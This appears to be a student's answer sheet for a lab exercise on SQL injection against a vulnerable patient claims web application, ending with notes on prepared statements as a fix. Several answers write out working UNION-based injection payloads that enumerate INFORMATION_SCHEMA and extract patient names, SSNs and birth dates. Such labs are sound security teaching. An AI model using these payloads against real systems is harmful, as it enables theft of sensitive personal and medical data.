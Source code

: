 Questions:
1. After entering the apostrophe, the java stack trace was returned.
2. The attacker can see that we are using the apache tom cat web server and sql/jdbc.
3. A page displaying the lists of providers is returned along with access to their details.
4. The attacker has learned about the providers' private details.
5. select * from SOMETABLE
	where somecol = 'VALUE\_FROM_SPECIALTY'
	and somecol like '' or 1=1 or ''%
	and somecol like 'VALUE\_FROM_FIRSTNAME%'
6. The java stack trace comes back.
7. The attacker has learned that the select statements have a different number of columns.
8. ' union select '1', '2', '3', '4', '5', '6', '7', '8', '9', '10
9. It shows that data from columns 2, 4, 3,7 comes back.
10. You can use queries to display data in certain rows using a combination of union and select.
11. ' union select '', table\_schema, column_name, table_name, '', '', concat(data_type, privileges), '', '', '' from INFORMATION_SCHEMA.COLUMNS where 1=1 OR '2'='
12. To name a few schemas: infornation schemas, table schemas, constraint schemas, general info, claims, and performance schemas
13. ' union select distinct '', table\_schema, table_name, '', '', '', '', '', '', '' from INFORMATION_SCHEMA.COLUMNS where table_schema not in ('information_schema', 'mysql', 'performance_schema') and 1=1 or '2'='
14. Distinct makes sure that only unique values are displayed.
15. Patients, hospital claims, and beneficiary\_hdr all seems like tables with valuable information attackers can be after.
16. ' union select '', column\_name, data_type, privileges, '', '', '', '', '', '' from INFORMATION_SCHEMA.COLUMNS where table_schema = 'claims' and table_name = 'patients' and 1=1 or '2'='
17. The columns birth\_date, first_name, last_name, and SSN all provide valuable information. Enough to steal your identity.
18. ' union select '', ID, First\_Name, last_name, '', '', SSN, '', '', '' from claims.patients where 1=1 or '2'='
19. I was able to see the list of all patients alongside their names, id, and ssn.
20. ' union select '', ID, First\_Name, last_name, '', '', concat(SSN, ':', birth_date), '', '', '' from claims.patients where 1=1 or '2'='
21. When you press search, you are redirected to the page that displays the table schema, column/table names, and their privileges.
22. Structured input fields will help prevent sql injection by first validating the user input before accepting it
23. No, the attacks do not work against the updated application.
24. Maybe slightly? Having to track which index values should be placed into can be somewhat tedious, but java string operations are usually painstaking either way so I would not consider it strictly harder to use.
25. I think that the focus on rapid growth forced onto workers by a shareholder-centric economy causes people to frequently discard safety and verification in the name of progress and faster development time. If the focus in business shifted from delivering as quickly as possible to as securely as possible, SQL injection attacks would likely drop significantly.
